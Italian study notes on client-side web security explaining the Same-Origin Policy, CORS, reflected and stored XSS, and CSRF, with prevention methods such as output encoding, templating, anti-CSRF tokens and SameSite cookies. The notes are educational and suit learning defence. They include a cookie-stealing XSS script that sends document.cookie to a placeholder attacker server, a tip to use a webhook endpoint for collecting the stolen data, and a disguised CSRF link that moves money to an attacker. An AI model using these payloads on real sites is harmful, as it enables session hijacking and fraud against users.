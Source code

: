 # Web Security 3

## Client-Side Security

E' una branca della web security, che ha come obiettivo rendere sicure le pagine web (frontend).
Le pagine web sono scritte in un linguaggio di markup HTML, ma possono eseguire javascript che consente di manipolare dati e pagine (Document Object Model).
Le pagine possono gestire molti dati:

- Dati privati dell'utente.
- Token di sicurezza generati.
- Pannelli di controllo per la gestione di una applicazione associati ad un account admin.

I browser salvano tutti i cookie associati ad un dominio, quindi se evil.com fa una richiesta a good.com può prelevare tutti i nostri dati.

Per questo nasce la Same-Origin Policy SOP, ogni script caricato in un origin può accedere ai dati di una risorsa esterna se e solo se l'origine è la stessa.
L'origine diventa un perimetro che va a salvare i dati privati in modo tale che non vengano acceduti da altre pagine malevole.
L'origine è composta da protocollo, hostname e porta. Sottodomini diversi non vengono considerati come stessa origin.

Cross-Origin Resource Sharing, è un modo per i siti web di consentire di condividere le risorse da/verso altri domini, è una sorta di contratto.

## XSS Cross-Site Scripting

Una vulnerabilità tra le più utilizzate in ambito web, è interessante come un utente malintenzionato di mascherarsi da utente vittima e eseguire qualsiasi operazione che l'utente possa eseguire (caso più pericoloso se è un admin). Così facendo rompono la SOP.
Questo si effettua attraverso l'iniezione di codice malevolo javascript che viene eseguito all'interno del browser della vittima.
Le azioni malevoli eseguibili con questa tecnica sono le seguenti:

- Rubare i cookie di sessione
- Rubare informazioni presenti nelle varie pagine

Come prevenire un attacco?
L'attenzione va posta nella sanificazione degli input.
Un modo veloce può essere quello di eseguire un HTML-encoded quindi caratteri come <> vengono rappresentati come &lt; &gt; &quot;

Ogni linguaggio ha le proprie precauzioni per le sanificazioni, con funzioni fatte a posta.

Un secondo modo per evitare attacchi di XSS sono i template, all'interno del template vengono inseriti i dati come variabili sicure.

### Reflected XSS

Un attacco riflesso è quando un backend riflette l'input dell'utente come output in una pagina senza essere sanificato.
Questo genera una pagina non sicura.
Se noi inseriamo tag di script, quest'ultimi verranno eseguiti nella pagina dell'utente.

Abbiamo un attaccante che invia a un utente un link malevolo, l'utente clicca su questo link ed accede a questa pagina. Eseguendo questo script malevolo va ad inviare i suoi dati all'attaccante.
![alt text](image.png)

Per rubare i cookie:

```javascript
<script>document.location = 'server-nostro?cookie='+document.cookie</script>
```

https://webhook.com ci consente di creare un endpoint temporaneo.

### Stored XSSs

Questo tipo di attacco non richiede una interazione da parte dell'utente perchè è un attacco di tipo persistente.
Lo script malevolo è interno alla pagina, quindi chiunque accede a quella pagina esegue il codice malevolo.
L'attacco malevolo potrebbe essere salvato ad esempio all'interno di un database.

Un tipico esempio è una sessione di commenti di un blog. Se l'utente inserisce un commento e non avviene la sanificazione, quando viene renderizzato dalla pagina viene anche eseguito, di conseguenza può essere molto prelevare tutti i cookie di tutti gli utenti.

![alt text](image-1.png)

## CSRF Cross-Site Request Forgery

Avviene ogni volta che una mail, un sito, un blog vanno ad eseguire delle azioni che in realtà pericolose in genere è sempre un link, l'utente è già autenticato.

Avviene solo per determinate azioni a differenza del XSS, e non si può ottenere una risposta a differenza di XSS, viene eseguita una richiesta.

Esempio immaginiamo una banca che ogni volta che esegue una transazione genera un link simile al seguente: http://bank.site/transact?to=user2&money=1000
![alt text](image-2.png)

Viene quindi inviata la richiesta per trasferire i fondi alla vittima, il nostro utente clicca sul link e da l'autorizzazione affinchè avvenga il trasferimento di denaro che viene inviato all'utente malevolo.
http://bank.site/transact?to=attacker&money=1000

Ovviamente il link non verrà mostrato in chiaro, verrà nascosto ad esempio all'interno di un bottone:

```html
<a href="http://bank.site/transact?to=attacker&money=1000"
  >Clicca qui per vincere</a
>
```

Affinchè un attacco CSRF sia possibile devono essere presenti tre condizioni chiave:

- Un'azione pertinente (di interesse per l'attaccante)
- Gestione della sessione basata su cookie
- Nessun parametro non prevedibile nella richiesta

Metodi per prevenire:

- Comunicazione stateful: per ogni azione pericolosa viene generato un token randomico validato dal backend.
- La decisione di condividere o no i cookie è basata sui cookie, con il concetto di parties:
  - Same Party: l'origine è la stessa -> modalità STRICT
  - First Party site: l'origine differisce solo per il sottodominio -> modalità LAX
  - Third Party site: L'origine è completamente differente -> modalita NONE
